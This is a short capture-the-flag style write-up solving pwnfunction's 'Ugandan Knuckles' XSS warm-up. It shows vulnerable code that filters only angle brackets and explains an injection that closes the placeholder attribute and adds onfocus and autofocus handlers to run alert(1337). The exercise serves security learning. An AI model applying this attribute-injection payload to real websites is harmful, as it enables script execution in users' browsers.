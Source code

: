 # Ugandan Knuckles - Exercise 3

[Problem](https://xss.pwnfunction.com/warmups/da-wey/)

[Solution](https://sandbox.pwnfunction.com/warmups/da-wey.html?wey=sample%22%20onfocus=%22alert(1337)%22%20autofocus=%22)

## Explanation

Here is the part to inject JS

```html
<div id="uganda"></div>
<script>
    let wey = (new URL(location).searchParams.get('wey') || "do you know da wey?");
    wey = wey.replace(/[<>]/g, '')
    uganda.innerHTML = `<input type="text" placeholder="${wey}" class="form-control">`
</script>
```

Here we have the freedom to choose the parameter *wey*, but it cannot have `<` or `>` as it gets replaced later. This makes it impossible to add a new tag in between. Still we can control the attributes of input tag div uganda, which gets added later in the code. Set the value of wey to be `sample" onfocus="alert(1337)" autofocus="` which adds a input element in the div `<input type="text" placeholder="sample" onfocus="alert(1337)" autofocus="" class="form-control">`, and Voila!

### This might be helpful

[This is where I learned the autofocus trick from](https://security.stackexchange.com/questions/97550/how-to-launch-xss-code-from-an-input-html-tag-upon-page-load)
